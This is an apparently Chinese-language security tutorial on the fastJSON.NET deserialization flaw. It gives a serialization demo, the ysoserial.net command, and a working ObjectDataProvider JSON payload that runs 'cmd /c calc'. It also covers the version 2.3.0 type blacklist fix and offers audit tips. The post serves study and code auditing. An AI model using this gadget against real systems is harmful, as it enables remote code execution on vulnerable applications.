




# Fastjson

fastjson是之前比较流行的第三方json库。[官方文档](https://www.codeproject.com/Articles/159450/fastJSON-Smallest-Fastest-Polymorphic-JSON-Seriali)宣称其性能测试第一，并且给了图



本文讲解fastjson.net的反序列化漏洞

# demo

一个最小的序列化demo

```csharp
using fastJSON;
using System;

namespace Fastjson.NetSerializer
{
    class Person
    {
        public string Name { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "jack";
            string json = JSON.ToJSON(person);
            Console.WriteLine(json);
            Person p = JSON.ToObject<Person>(json);
            Console.WriteLine(p.Name);
            Console.ReadKey();
        }
    }
}
```

输出

```json
{"$types":{"Fastjson.NetSerializer.Person, Fastjson.NetSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null":"1"},"$type":"1","Name":"jack"}
jack
```

可见附带了type信息，那么当json可控时，传入objectdataprovider可造成RCE。

# 攻击链objectdataprovider

ysoserial.net生成payload如下

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f fastjson -g ObjectDataProvider -c calc
{
    "$types":{
        "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = 31bf3856ad364e35":"1",
        "System.Diagnostics.Process, System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089":"2",
        "System.Diagnostics.ProcessStartInfo, System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089":"3"
    },
    "$type":"1",
    "ObjectInstance":{
        "$type":"2",
        "StartInfo":{
            "$type":"3",
            "FileName":"cmd","Arguments":"/c calc"
        }
    },
    "MethodName":"Start"
}
```

json传入反序列化之后弹出calc



上图是使用fastjson2.2.4版本，在fastjson2.3.0版本之后，官方的GitHub仓库有一个[issue](https://github.com/mgholam/fastJSON/issues/108)提到了type可控造成RCE漏洞，由此作者在2.3.0之后增加了`JSONParameters.BlackListTypeChecking`来检查type值是否为已知的漏洞，类似于java中的fastjson黑名单。[commit在这里](https://github.com/mgholam/fastJSON/commit/52abf6cc2c60a75ea5d85ec8ea348461d095ddfb)

黑名单关键代码如下



当使用同样的payload打2.3.0及以上版本的fastjson时，会抛出异常



> Black list type encountered, possible attack vector when using $type : System.Windows.Data.ObjectDataProvider, PresentationFramework, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = 31bf3856ad364e35”

# 审计

关注fastjson的版本，以及json传入是否可控。

# 后文

fastjson因为json.net的兴起逐渐被取代，但仍是比较经典的json反序列化漏洞。